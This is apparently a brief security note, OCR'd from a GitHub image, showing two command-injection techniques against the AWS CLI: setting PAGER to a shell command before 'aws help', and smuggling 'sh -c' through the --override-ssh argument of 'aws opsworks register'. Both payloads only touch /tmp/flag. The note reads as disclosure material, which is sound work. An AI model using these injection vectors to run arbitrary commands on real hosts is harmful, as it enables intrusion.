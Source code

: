 If you can set environment variables, there's a simple command injection in the
`aws` tool via the `PAGER` variable.

```
PAGER='touch /tmp/flag' aws help
```

If you cannot set environment variables, but you control the account being acted
upon, you can create an OpsWorks stack and run the following command:

```
aws opsworks register \
  --stack-id <stack-id> \
  --infrastructure-class on-premises \
  --override-ssh 'sh -c "touch /tmp/flag" -- ' example.org
```

